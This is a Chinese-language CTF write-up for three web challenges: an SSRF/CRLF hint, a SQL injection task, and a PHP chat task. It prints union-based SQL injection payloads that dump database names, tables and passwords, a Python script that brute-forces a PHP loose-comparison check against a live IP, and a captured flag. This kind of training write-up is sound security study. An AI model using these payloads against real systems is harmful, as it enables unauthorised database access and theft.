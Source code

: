 <br/>

### 8.服务端检测系统

> 出题人：淚笑
> emm，自己看
> 地址:http://148.70.59.198:41256/
> hint:ssrf && crlf

<br/>


### 9.Lovelysql
> 出题人：cl4y
> 上次是我粗心大意，看来不能直接放在网页上了！
> 地址:http://118.25.14.40:8101/

毫无过滤的联合查询注入，“#”可以注释sql
```
# 数据库名
username=admin&password=admin'union select 1,2,group_concat(schema_name) from information_schema.schemata#

# 表名
username=admin&password=admin'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#

# 列名
username=admin&password=admin'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#

# 字段
username=admin&password=admin'union select 1,2,group_concat(password) from l0ve1ysq1#
```
最后得到flag
```
Syc{Ohhh_y0u_foUnd_m3}
```

<br/>

### 10.性感黄阿姨，在线聊天

> 出题人：淚笑
> 听说她有很多小秘密和表情包哦，当然也有你们最想要的flag！
> 地址:http://148.70.59.198:41257/
> hint:weak php && xxe

聊天界面输入“flag”提示“我很想告诉你的，可惜你只是我的guest”，查看源码发现post请求，把“name”值改为“admin”发送请求，返回“admin也不行! //if($name==md5($flag)){flag in ...}”，把“name”参数从字符串改为数字进行爆破（weak php：php弱类型比较）。
```python
import requests,json

headers = {'content-type': 'application/json'}
for i in range(357,358):
    res = requests.post("http://148.70.59.198:41257/message.php",data=json.dumps({"root":{"name":i,"request":"flag"}}), headers=headers)
    print(eval(res.text)["response"])
```
当name=357时返回信息“Congratulations! flag in ./_f14g_Is_Here_.php ,try ro read it!”
